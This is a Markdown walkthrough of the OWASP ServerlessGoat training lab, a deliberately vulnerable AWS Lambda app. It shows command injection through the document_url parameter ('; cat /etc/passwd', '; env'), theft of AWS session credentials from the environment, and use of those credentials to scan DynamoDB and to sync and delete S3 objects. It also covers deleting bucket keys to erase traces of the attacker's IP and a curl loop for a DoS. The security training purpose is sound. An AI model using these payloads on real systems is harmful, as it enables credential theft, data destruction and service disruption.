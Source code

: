 # serverless-goat Walkthrough

*Still to add **INSTALL/REMOVAL** steps*

## Lambda Function API
1. Locate the Endpoint URL under CloudFormation Outputs
2. Navigate to URL in a separate browser  
The endpoint loads an OWASP ServerlessGoat page containing a form consisting of 
      * a single user input textbox and submit button  
      * a list of potential vulnerabilities  
3. Click Submit with the currrent value in place  
This loads a A Poison Tree poem with a URL that seems remarkably close to an s3 bucket address  
**Save this URL For Later, or skip to (###S3 Bucket Access with No Credentials) see it's use now**

## Information Gathering
1. Click back on the browser to return to the page 
2. Attempt **Function Data Injection** by adding code to the end of the URL  
*e.g. try adding*`; pwd`
3. Click submit to load the original poem as well as **Improper Exception Handling and Verbose Error**  
  *this appears to be vulnerable to __Function Data Injection__*
### Improved injection attempts
1. Click back and change the URL form to a URL that doesn't contain a doc file followed by a snippet of code  
e.g. `https://inject; pwd`
2. Click submit to load the current working directory */var/task* 
3. Repeat this tasks with the following bash code add for more information resulting from **Over-Privileged Function Permissions**  
**Document everything for later**    
`https://inject; whoami`
   *Current user should be sbx-user0666 or similar*   
`https://inject; ls -la`
    *Lists the current directory (index.js + node_modules subdirectory)*   
`https://inject; cat /etc/passwd` 
  *Lists current users*  
`https://inject; cat index.js`
    *Provides code for basic information on how this page functions*   
    Important information to be gathered from this file includes
      * Database 
      * S3 bucket Put permissions
      * node.js package used 
      * Table information 
      * Permissions to curl (potentially) 
      * Output URL 
 4. Explore file contents  
 `https://inject; cat node_modules/.bin/uuid`   
 USAGE: `uuid [ver] [options]` + some encryption math used to generate keys  
 this doesn't seem to be entirely random
 5. Read more javascript
  `https://inject; cat node_modules/node-uuid/package.json`  
  *lists package version*  
  Research into this version of UUID results in a known vulnerability to insecure randomness  
  **TL:DR;** math.random can produce predictable values and this in an **Insecure 3rd Party Dependency**  
  keys generated and for storage in the s3 bucket may be predicted  
  This could be *very* interesting if it was used to store PII, but it isn't for this circumstance  
 6. Check for unsecured environmental variables  
 `https://inject; env`  
 Results in **Insecure Application Secrets Storage**: 
       * aws_session_token
       * aws_secret_access_key
       * aws_access_key
       * table name
       * s3 bucket name

### S3 Bucket Access with No Credentials
1. Explore the bucket address by opening a new tab, and copying/pasting the URL in the old tab with modifications  
    * URL Modifications for the 2nd tab:  
      - remove the last portion of the URI (e.g. /a3243c-321c-9d21-342f3ebc2a09)  
      - change the s3-website-us-east-1.amazonaws.com to be a correct bucket address (s3.amazonaws.com)
2. Now that the URL modifications have been made, load the s3 bucket  
This site contains information concerning the s3 bucket contents, and each Key listed can be added to the URL as a path  
This site does has a **Broken Authentication** vulnerability because it does not require any authorization for access  
This site also contains the **Insecure Serverless Deployment Configuration** vulerability for the following reasons
      * The s3 bucket URL should not be easy to infer
      * This page should be secured and encrypted instead of being publicly accessible 
Return to the previous tab

### Enumeration
#### Node.js Access Enumeration
Attempt to access content/information using Node.js  
1. What version of node.js?  
`https://enum; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log("Running Node.js" + process.version))})();'`
2. Can the database be scanned?  
`https://enum; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'`
3. Can the database be queried?
4. Does GetItem work?
5. Does PutItem work?
6. Does UpdateItem work?
??? Do I enumerate all the things? Can I automate this?
7. Can the s3 buckets be scanned?

#### Profile Enumeration
1. Using the information found in the env variables create a user profile 
`aws configure profile --user666`  
    * aws_secret_access_key    
    * aws_access_key   
    * us-east-1
2. Add the aws_session_token to the end of the user profile configuration by editing the *~/.aws/credentials* file  
`vim ~/.aws/credentials`  
`aws_session_token = <aws_session_token>`
3. Obtain current profile information 
`aws sts get-caller-identity --profile user666`  
**Improper Exception Handling and Verbose Errors**
4. How do I discover information about this profile/user/permissions/roles?

#### Database Actions Enumeration
1. Attempt to DescribeTable

2. Attempt to scan the database contents  
`aws dynamodb scan --table-name <table-name> --profile user`
3. Attempt to Query the database
4. Attempt to GetItem
5. Attempt to DeleteItem
6. Attempt to UpdateItem
7. Attempt to BatchWriteItem
8. Attempt to BatchGetItem
9. What other DB action policies are there to be enumerated?

#### S3 Bucket Actions Enumeration
1. Attempt ListBucket
`aws s3 ls <s3-bucket> --profile user` 
2. Attempt GetBucketLocation
3. Attempt GetLifecycleConfiguration
4. Attempt PutLifecycleConfiguration
5. Attempt GetObject
6. Attempt GetObjectAcl
7. Attempt GetObjectVersion
8. Attempt PutObject
9. Attempt PutObjectAcl
2. Attempt to download bucket contents  
`aws s3 sync s3://<s3-bucket> . --profile user`
3. Review downloaded bucket content  
`ls -la`
4. Display commands run via Lambda Function
`cat <key>`
5. Attempt to delete bucket contents  
`aws s3api delete-object --bucket <s3-bucket> --key <key> --profile`
6. Remove all traces of requests by your IP address by repeated step 5 for each key value found  

### DoS Attack
Create a simple bash script to curl the site multiple times   
This will demonstrate the serverless function going from reachable to unreachable  
*internal server errors* are proof of a successful DoS Attack
1. Start with the http address after a function is sent  
(https://<x>.execute-api.us-east-1.amazonaws.com/Prod/api/convert?document_url=)
2. Copy the address between brackets, URL encode it, and then add to the end of the address 
3. Repeat Step 2 5x for the <http-address> value, which will perform the DoS
4. The run the following bash script  
``` bash
for i in {1.100}; do  
  echo $i  
  curl -L <http-address>  
done
```

